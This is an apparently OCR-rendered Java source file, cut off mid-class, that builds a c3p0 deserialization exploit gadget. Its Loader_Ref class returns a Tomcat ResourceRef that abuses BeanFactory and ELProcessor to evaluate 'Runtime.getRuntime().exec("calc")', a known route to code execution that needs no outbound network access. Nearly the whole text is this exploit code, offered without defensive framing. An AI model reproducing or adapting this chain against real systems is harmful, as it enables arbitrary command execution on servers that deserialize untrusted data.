 JAVA

```
package NoNetUsing;  
  
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;  
import org.apache.naming.ResourceRef;  
  
import javax.naming.NamingException;  
import javax.naming.Reference;  
import javax.naming.Referenceable;  
import javax.naming.StringRefAddr;  
import javax.sql.ConnectionPoolDataSource;  
import javax.sql.PooledConnection;  
import java.io.*;  
import java.lang.reflect.Field;  
import java.sql.SQLException;  
import java.sql.SQLFeatureNotSupportedException;  
import java.util.logging.Logger;  
  
public class NoAccessEXP {  
  
    public static class Loader_Ref implements ConnectionPoolDataSource, Referenceable {  
  
        @Override  
 public Reference getReference() throws NamingException {  
            ResourceRef resourceRef = new ResourceRef("javax.el.ELProcessor", (String)null, "", "", true, "org.apache.naming.factory.BeanFactory", (String)null);  
            resourceRef.add(new StringRefAddr("forceString", "faster=eval"));  
            resourceRef.add(new StringRefAddr("faster", "Runtime.getRuntime().exec(\"calc\")"));  
            return resourceRef;  
        }  
  
        @Override  
 public PooledConnection getPooledConnection() throws SQLException {  
            return null;  
        }  
  
        @Override  
 public PooledConnection getPooledConnection(String user, String password) throws SQLException {  
            return null;  
        }  
  
        @Override  
 public PrintWriter getLogWriter() throws SQLException {  
            return null;  
        }  
  
        @Override  
 public void setLogWriter(PrintWriter out) throws SQLException {  
  
        }  
  
        @Override  
 public void setLoginTimeout(int seconds) throws SQLException {  
  
        }  
  
        @Override  
 public int getLoginTimeout() throws SQLException {  
            return 0;  
        }  
  
        @Override  
```
